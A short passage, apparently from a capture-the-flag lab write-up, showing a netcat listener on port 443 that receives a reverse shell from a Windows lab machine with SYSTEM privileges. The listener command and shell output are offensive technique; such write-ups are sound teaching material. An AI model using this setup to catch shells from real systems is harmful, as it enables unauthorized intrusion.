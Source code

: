At my local `nc` listener:

```

oxdf@hacky$ rlwrap -cAr nc -lnvp 443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.72.
Ncat: Connection from 10.10.10.72:49207.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system

```